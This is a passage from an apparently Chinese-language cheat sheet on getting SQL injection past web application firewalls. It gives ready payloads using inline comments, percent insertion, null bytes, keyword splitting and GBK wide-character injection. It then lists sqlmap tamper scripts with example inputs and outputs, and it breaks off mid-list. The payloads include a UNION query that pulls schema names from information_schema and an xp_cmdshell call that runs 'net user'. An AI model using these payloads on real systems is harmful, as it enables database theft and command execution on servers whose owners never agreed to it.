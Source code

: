 3. 反注释

```
/*!30000union all select (select distinct concat(0x7e,0x27,unhex(Hex(cast(schema_name as char))),0x27,0x7e) from `information_schema`.schemata limit 10,1),null,null,null,null*/--
```

4. 加%

```
newsid=60+a%nd%201=(se%lect%20@@VERSION)--
newsid=60+a%nd%201=(se%lect%20@@servername)--
```

5. NULL 字节

```
xx.asp?0day5.com=%00.&xw_id=69%20 and 1=1和xx.asp?0day5.com=%00.&xw_id=69%20 and 1=2
```

6. 关键字拆分

```
cnseay.com/1.aspx?id=1;EXEC('ma'+'ster..x'+'p_cm'+'dsh'+'ell "net user"')
```

7. 宽字符注入  
   这种方式主要是绕过 addslashes 等对特殊字符进行转移的绕过。反斜杠 \ 的十六进制为 %5c，在你输入 %bf%27 时，函数遇到单引号自动转移加入 \，此时变为 %bf%5c%27，%bf%5c 在 GBK 中变为一个宽字符「縗」。%bf 那个位置可以是 %81-%fe 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。

### sqlmap 自带的绕过脚本 --tamper 详解

```
(1) apostrophemask.py UTF-8编码
Example:
Input: AND '1'='1'
Output: AND %EF%BC%871%EF%BC%87=%EF%BC%871%EF%BC%87

(2) apostrophenullencode.py unicode编码
Example:
Input: AND '1'='1'
Output: AND %00%271%00%27=%00%271%00%27

(3) appendnullbyte.py 添加%00
Example:
Input: AND 1=1
Output: AND 1=1%00
Requirement:
Microsoft Access

(4) base64encode.py base64编码
Example:
Input: 1' AND SLEEP(5)#
Output: MScgQU5EIFNMRUVQKDUpIw`

(5) between.py 以”not between”替换”>“
Example:
Input: 'A > B'
Output: 'A NOT BETWEEN 0 AND B'

(6) bluecoat.py 以随机的空白字符替代空格，以”like”替代”=“
Example:
Input: SELECT id FROM users where id = 1
Output: SELECT%09id FROM users where id LIKE 1
Requirement:
MySQL 5.1, SGOS

(7) chardoubleencode.py 双重url编码
Example:
```